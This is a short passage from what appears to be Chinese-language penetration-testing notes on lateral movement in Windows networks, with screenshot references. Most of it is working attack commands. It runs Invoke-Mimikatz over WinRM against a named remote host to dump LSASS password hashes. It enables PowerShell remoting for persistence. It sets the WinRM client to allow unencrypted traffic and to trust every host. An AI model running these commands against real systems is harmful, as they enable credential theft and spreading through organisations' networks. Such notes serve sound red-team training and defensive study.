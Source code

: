 ![1574333082062](Lateral%20Movement.assets/1574333082062.png)

同时mimikatz还支持使用WINRM进行远程获取LSASS中存储的hash值:

```powershell
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -ComputerName exchange2012
```

![1574333109782](Lateral%20Movement.assets/1574333109782.png)

同时也可以用于持久化，将原本没有开启WINRM的主机使用下列命令开启:

```powershell
Enable-PSRemoting –Force
```

![1574333138165](Lateral%20Movement.assets/1574333138165.png)

在一些情况下可能无法通过WinRM连接，就是说明需要做一些其他的配置:

```powershell
winrm quickconfig
winrm set winrm/config/Client @{AllowUnencrypted = "true"}
Set-Item WSMan:localhost\client\trustedhosts -value *
```
